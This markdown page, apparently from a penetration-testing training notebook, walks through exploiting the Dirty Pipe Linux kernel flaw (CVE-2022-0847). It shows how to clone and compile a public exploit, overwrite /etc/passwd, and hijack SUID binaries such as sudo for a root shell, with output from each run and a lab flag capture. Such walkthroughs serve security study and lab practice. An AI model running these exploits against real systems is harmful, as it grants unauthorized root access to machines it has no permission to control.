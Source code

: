 ```yaml
---
description: >-
  based on pipes which are a mechanism of unidirectional communication between
  processes that are particularly popular on Unix systems.
---
```


# Dirty Pipe

A vulnerability in the Linux kernel, named [Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), allows unauthorized writing to root user files on Linux. Technically, the vulnerability is similar to the [Dirty Cow](https://dirtycow.ninja/) vulnerability discovered in 2016. All kernels from version `5.8` to `5.17` are affected and vulnerable to this vulnerability.

**Download Dirty Pipe Exploit**

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

### exploit version (`exploit-1`)

modifies the `/etc/passwd` and gives us a prompt with root privileges.

**Verify Kernel Version**

```shell-session
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

**Exploitation**

```shell-session
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

### exploit version (`exploit-2`)

we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries.

```shell-session
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```

Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.

**Exploitation**

```shell-session
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
```

## Assessment

It affects the Linux _kernels_ from 5.8 through any _version_ before 5.16.11, 5.15.25 and 5.10.102

```sh
htb-student@ubuntu:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/bin/at
/usr/bin/chfn
<SNIP>
htb-student@ubuntu:~$ chmod +x exploit-2
htb-student@ubuntu:~$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),1000(htb-student)
# bash
root@ubuntu:/home/htb-student# cat /root/flag.txt 
HTB{D1rTy_DiR7Y}
```
